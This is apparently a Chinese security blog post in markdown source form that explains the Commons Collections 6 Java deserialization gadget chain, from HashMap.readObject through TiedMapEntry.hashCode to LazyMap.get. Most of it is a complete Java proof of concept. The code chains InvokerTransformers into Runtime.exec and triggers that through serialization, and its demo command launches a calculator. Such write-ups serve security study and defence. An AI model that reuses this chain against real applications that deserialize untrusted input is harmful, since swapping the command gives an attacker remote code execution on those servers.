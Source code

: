 ```yaml
---  
title: CommonsCollections6链详解  
subtitle:  
date: 2024-01-15T15:29:23+08:00  
slug: 70fa896  
draft: false  
author:  
  name: N1Rvana  
  email: beichenghua@gmail.com  
  avatar: avatar.png  
description:  
keywords:  
license:  
comment: false  
weight: 0  
tags:  
  - CommonsCollections  
categories:  
  - Java  
hiddenFromHomePage: false  
hiddenFromSearch: false  
hiddenFromRss: false  
hiddenFromRelated: false  
summary:  
resources:  
  - name: featured-image  
    src: featured-image.jpg  
  - name: featured-image-preview  
    src: featured-image-preview.jpg  
toc: true  
math: false  
lightgallery: false  
password:  
message:  
repost:  
  enable: true  
  url:  
  
# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter  
---  
```

  
世界上最好用的 CC 链  
<!--more-->  
## CommonsCollections6 详解  
CommonsCollections1 的链子调用了`LazyMap`类中的`transform()`方法，于是找一个任意类调用`get()`方法的地方，这里换到了`TideMapEntry`类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516691.png)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516403.png)  
这里的`hashCode()`方法里调用了`getValue()`方法里面调用了`get()`方法，并且`map`可控，这里的`hashCode()`很熟悉，因为在`URLDNS`链中`HashMap`类里的`readObject()`方法调用到了`hashCode()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518932.png)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518990.png)  
于是构造`poc`  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections6 {    
    public static void main(String[] args) throws Exception{    
    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),    
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),    
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap<Object, Object> map = new HashMap<>();    
        Map<Object, Object> lazymap = LazyMap.decorate(map, new ConstantTransformer(1));    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "test");    
    
        HashMap<Object, Object> map2 = new HashMap<>();    
        map2.put(tiedMapEntry,"test1");    
    
        lazymap.remove("test");    
    
        Class c = LazyMap.class;    
        Field factoryField = c.getDeclaredField("factory");    
        factoryField.setAccessible(true);    
        factoryField.set(lazymap,chainedTransformer);    
        //serialize(map2);    
        unserialize("ser.bin");    
    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151528159.png)  
  